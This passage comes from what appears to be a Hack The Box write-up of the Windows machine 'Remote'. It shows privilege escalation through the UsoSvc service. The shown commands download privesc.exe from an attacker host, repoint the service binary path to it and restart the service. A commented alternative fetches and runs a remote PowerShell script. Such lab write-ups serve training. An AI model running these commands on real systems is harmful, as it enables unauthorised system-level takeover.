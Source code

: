 - Then we have to upload it:

```powershell
PS C:\Windows\System32\spool\drivers\color> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/privesc.exe', 'c:\Windows\System32\spool\drivers\color\privesc.exe')
```

- Finally, stop the service, change the binary path and restart the service:

```powershell
PS C:\Windows\System32\spool\drivers\color> net stop UsoSvc
The Update Orchestrator Service service is stopping.
The Update Orchestrator Service service was stopped successfully.

# We could also do: sc.exe config UsoSvc binpath= "powershell.exe 'IWR http://10.10.14.12/shell.ps1 -UseBasicParsing'"
PS C:\Windows\System32\spool\drivers\color> sc.exe config UsoSvc binpath= "C:\Windows\System32\spool\drivers\color\privesc.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\Windows\System32\spool\drivers\color> net start UsoSvc 
```

![](/assets/img/htb/machines/windows/easy/remote/system.png)

___

## Useful links

- <https://github.com/antonioCoco/RoguePotato>
- [My cheat sheat about Windows Privesc](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#privesc)